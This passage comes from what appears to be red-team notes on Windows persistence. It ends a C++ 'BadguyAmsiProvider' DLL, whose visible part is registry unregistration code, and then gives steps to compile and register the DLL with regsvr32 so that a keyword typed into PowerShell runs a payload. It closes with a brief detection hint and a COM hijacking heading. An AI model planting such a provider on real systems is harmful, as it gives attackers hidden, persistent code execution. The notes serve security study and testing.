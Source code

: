 ```C++
	return S_OK;
}

STDAPI DllUnregisterServer()
{
	wchar_t clsidString[40];
	if (StringFromGUID2(__uuidof(BadguyAmsiProvider), clsidString, ARRAYSIZE(clsidString)) == 0)
	{
		return E_UNEXPECTED;
	}

	// Unregister this CLSID as an anti-malware provider.
	wchar_t keyPath[200];
	HRESULT hr = StringCchPrintf(keyPath, ARRAYSIZE(keyPath), L"Software\\Microsoft\\AMSI\\Providers\\%ls", clsidString);
	if (FAILED(hr)) return hr;
	LONG status = RegDeleteTree(HKEY_LOCAL_MACHINE, keyPath);
	if (status != NO_ERROR && status != ERROR_PATH_NOT_FOUND) return HRESULT_FROM_WIN32(status);

	// Unregister this CLSID as a COM server.
	hr = StringCchPrintf(keyPath, ARRAYSIZE(keyPath), L"Software\\Classes\\CLSID\\%ls", clsidString);
	if (FAILED(hr)) return hr;
	status = RegDeleteTree(HKEY_LOCAL_MACHINE, keyPath);
	if (status != NO_ERROR && status != ERROR_PATH_NOT_FOUND) return HRESULT_FROM_WIN32(status);

	return S_OK;
}
#pragma endregion
```


Compile this C++ code to **your_compiled_ AMSI_provider.dll**
The AMSI Provider can be registered in the system with the *regsvr32* utility.
```powershell
regsvr32 your_compiled_ AMSI_provider.dll

```
When the keyword(**badguy** in our case) is passed to a PowerShell console, our payload will be executed.

*refer: https://pentestlab.blog/2021/05/17/persistence-amsi/*

#### Detection:

User can see strange AMSI Provider in reg.

</br></br>

##  COM Hijacking


*refer: https://pentestlab.blog/2020/05/20/persistence-com-hijacking/*





